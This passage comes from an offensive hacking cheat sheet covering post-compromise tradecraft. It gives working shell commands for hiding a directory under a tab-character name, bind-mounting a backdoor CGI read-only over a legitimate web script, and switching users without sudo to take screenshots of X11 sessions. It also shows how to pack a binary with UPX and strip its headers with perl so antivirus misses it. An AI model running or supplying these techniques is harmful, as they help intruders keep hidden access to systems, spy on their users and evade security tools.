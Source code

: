 Method 3:
Unix allows filenames with about any ASCII character but 0x00. Try tab (*\t*). Happens that most Admins do not know how to cd into any such directory.
```sh
mkdir $'\t'
cd $'\t'
```

<a id="perm-files"></a>
**8.v. Make a file immuteable**

This will redirect `/var/www/cgi/blah.cgi` to `/boot/backdoor.cgi`. The file `blah.cgi` can not be modified or removed (unless unmounted).
```sh
# /boot/backdoor.cgi contains our backdoor
touch /var/www/cgi/blah.cgi
mount -o bind,ro /boot/backdoor.cgi /var/www/cgi/blah.cgi
```

<a id="nosudo"></a>
**8.vi. Change user without sudo/su**

Needed for taking screenshots of X11 sessions (aka `xwd -root -display :0 | convert - jpg:screenshot.jpg`)
```bash
xsu() {
    local name="${1:?}"
    local u g h
    local cmd="python"

    command -v python3 >/dev/null && cmd="python3"
    [ $UID -ne 0 ] && { HS_ERR "Need root"; return; }
    u=$(id -u ${name:?}) || return
    g=$(id -g ${name:?}) || return
    h="$(grep "^${name}:" /etc/passwd | cut -d: -f6)" || return
    HOME="${h:-/tmp}" "$cmd" -c "import os;os.setgid(${g:?});os.setuid(${u:?});os.execlp('bash', 'bash')"
}
# xsu user
```

<a id="payload"></a>
**8.vii. Obfuscate and crypt paypload**

Use [UPX](https://github.com/upx/upx) to pack an ELF binary (example `/bin/id`):
```shell
BIN="mybin"
upx -qqq /bin/id -o "${BIN}"
```

Cleanse the [UPX header](https://github.com/upx/upx/blob/devel/src/stub/src/include/header.S) and 2nd ELF header to fool the Anti-Virus:
```shell
perl -i -0777 -pe 's/^(.{64})(.{0,256})UPX!.{4}/$1$2\0\0\0\0\0\0\0\0/s' "${BIN}"
perl -i -0777 -pe 's/^(.{64})(.{0,256})\x7fELF/$1$2\0\0\0\0/s' "${BIN}"
```
